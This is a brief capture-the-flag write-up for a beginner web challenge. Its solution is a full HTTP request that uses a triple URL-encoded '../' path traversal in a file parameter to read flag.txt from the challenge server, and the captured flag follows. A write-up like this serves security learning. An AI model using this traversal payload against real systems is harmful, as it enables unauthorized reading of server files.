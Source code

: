# Beginner/secret_of_j4ck4l

I left a message for you. You will love it definitely

http://34.132.132.69:8003/

Downloads: [public.zip](./public.zip)

## Solution

Triple bypass using URL encode.

```http
GET /read_secret_message?file=%25252E%25252E%25252Fflag%25252Etxt HTTP/1.1
Host: 34.132.132.69:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

## Flag

```plaintext
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```
